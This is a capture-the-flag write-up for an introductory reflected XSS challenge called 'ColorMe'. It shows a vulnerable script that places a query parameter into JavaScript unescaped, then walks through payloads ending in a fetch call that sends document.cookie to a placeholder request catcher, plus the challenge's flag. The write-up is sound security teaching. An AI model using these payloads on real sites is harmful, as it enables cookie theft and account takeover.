 # ColorMe Solution

"ColorMe" is the first challenge in the 3-part XSS series. It's meant to be a straightforward introduction into the world of cross-site scripting. 

If you checked out the accompanying guide, the first page or so is really all you need to take a stab at this challenge. Observe that the color that you can choose to change the headline is specified by a query parameter called `colour`:

You can freely control this value in the URL. Try out a few different inputs, like other colors, or maybe plain nonsense and see what comes up! 

Notice anything in the source code? Take a look by right-clicking->inspect element and see what happens to your input.

```html
<script>
nospace = "${colour}".replace(" ", '');
for (let i = 0; i < document.getElementsByTagName('h1').length; i++) {
  document.getElementsByTagName('h1')[i].style.color = nospace;
}
</script>
```

Interesting stuff! The key piece of information here is that your input is directly fed into the HTML skeleton of this webpage. That means you can add your own HTML tags and it will be rendered accordingly. 

So with that being said, to achieve proper XSS, try adding an HTML `script` tag, and see if it executes with a simple line of JS code like the `alert()` function. Try out something like `?colour=<script>alert(1);</script>`, and then see what happens with `?colour=<script>alert(document.cookie)</script>`.

Great! So now we have an XSS attack vector. What now? If you look at the guide, remember that you can use XSS attacks to steal a user's cookies. This can be done by first having a server that you control to act as your webhook or request catcher. There are a lot of these kinds of resources online, but the one that we like to use is webhook.site (but any sort of request catcher will do!).

Now we will do a little bit of JavaScript and browser manipulation. From the guide, we will use a payload such as:

```js
fetch('your.serverhere?cookie='%2B(document.cookie));
```

And add that as the value to the query parameter.

```
?colour=<script>fetch('your.serverhere?cookie='%2B(document.cookie));</script>
```

When the page reloads, take a look at your request catcher and observe that a new request has been caught - it's you, when you reloaded the page. If there are any cookies you have, it'll be listed there too! All that's left is to report the XSS colour URL to the admin, and wait for them to visit. 

```
maple{0ops_i_f0rgot_about_xss}
```